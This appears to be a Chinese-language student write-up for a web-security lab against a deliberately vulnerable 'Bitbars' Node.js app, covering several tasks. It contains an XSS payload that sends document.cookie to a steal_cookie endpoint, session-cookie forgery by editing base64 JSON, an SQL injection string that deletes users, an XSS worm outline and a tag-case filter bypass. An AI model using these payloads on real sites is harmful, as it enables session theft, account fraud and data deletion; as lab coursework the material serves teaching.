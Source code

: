 # CyberSecurity

## a.txt
输入未知的user name xxx，显示出`xxx does not exist`
注意到`router.js`中相关代码如下：
```javascript
    if(result) { // if user exists
      render(req, res, next, 'profile/view', 'View Profile', false, result);
    }
    else { // user does not exist
      render(req, res, next, 'profile/view', 'View Profile', `${req.query.username} does not exist!`, req.session.account);
    }
```
可以看到，当用户不存在时，会将`req.query.username`直接拼接到返回的html中，这里存在XSS漏洞。
考虑在此注入一段js代码，如下：
```html
<p hidden>
    <script>
        var x = new XMLHttpRequest();
        x.open("GET", "http://localhost:3000/steal_cookie?cookie="+(document.cookie));
        x.send()
    </script>
```
这段代码会向`http://localhost:3000/steal_cookie`发送一个GET请求，其中包含当前页面的cookie信息。

## b.html
见`b.pdf`

## c.txt
在`router.js`中，有如下代码：
```javascript
  if(receiver) { // if user exists
    const amount = parseInt(req.body.quantity);
    if(Number.isNaN(amount) || amount > req.session.account.bitbars || amount < 1) {
      render(req, res, next, 'transfer/form', 'Transfer Bitbars', 'Invalid transfer amount!', {receiver:null, amount:null});
      return;
    }

    req.session.account.bitbars -= amount;
    query = `UPDATE Users SET bitbars = "${req.session.account.bitbars}" WHERE username == "${req.session.account.username}";`;
    await db.exec(query);
    const receiverNewBal = receiver.bitbars + amount;
    query = `UPDATE Users SET bitbars = "${receiverNewBal}" WHERE username == "${receiver.username}";`;
    await db.exec(query);
    render(req, res, next, 'transfer/success', 'Transfer Complete', false, {receiver, amount});
  }
```
注意到转账更新是直接将`session cookie`中的相关数据更新到数据库中，考虑直接对`cookie`做改动。

登录`user1`，在控制台中查看`document.cookie`，得到
```
"session=eyJsb2dnZWRJbiI6dHJ1ZSwiYWNjb3VudCI6eyJ1c2VybmFtZSI6InVzZXIxIiwiaGFzaGVkUGFzc3dvcmQiOiI4MTQ2ZmYzM2U4MTVlMWEwOGVhZTJiNDczYmYyY2NhMTU5NTgyZTQzNGM1MjUyNGMzMzI1ZjA2ZThjMmI4MGQ5Iiwic2FsdCI6IjEzMzciLCJwcm9maWxlIjoiIiwiYml0YmFycyI6MjAwfX0="
```

使用base64解码：
`{"loggedIn":true,"account":{"username":"user1","hashedPassword":"8146ff33e815e1a08eae2b473bf2cca159582e434c52524c3325f06e8c2b80d9","salt":"1337","profile":"","bitbars":200}}`

直接对解码后的cookie修改`username`和`bitbars`字段，再将其base64编码，得到新的cookie即可

## d.txt
和`c.txt`的原理相同，获取`cookie`后，修改`bitbars`字段即可

## e.txt

该题为SQL Injection，我们在`router.js`中找到如下代码：
```javascript
const query = `DELETE FROM Users WHERE username == "${req.session.account.username}";`;
```

没有做任何的过滤，所以可以直接注入SQL语句，删除数据库中的数据。我使用的SQL语句如下：
```
user3" OR username LIKE "user3%";#
```
\#可以将之后的语句全部注释，在删除时就是删除所有以user3开头的用户。

## f.txt

该题是XSS, 我们可以在代码中发现
```javascript
<% if (result.username && result.profile) { %>
    <div id="profile"><%- result.profile %></div>
<% } %>
```
那么profile是要执行的。
所以我们通过通过XSS发送transfer请求进行转账，之后再通过发送set_profile请求将profile复制到查看的用户上，这样就可以实现XSS worm攻击。

## g.txt

本题是侧信道攻击，我们再transfer请求中，可以看到
```javascript
<input type="text" name="destination_username" value="<%= result.receiver %>">
```

由于使用的是<%=>会进行一些filter，经过查阅资料，发现可以改变一些TAG绕过filter，所以我们将img改为imG,script改为scripT，这样就可以绕过filter，将脚本注入到页面中进行登录操作。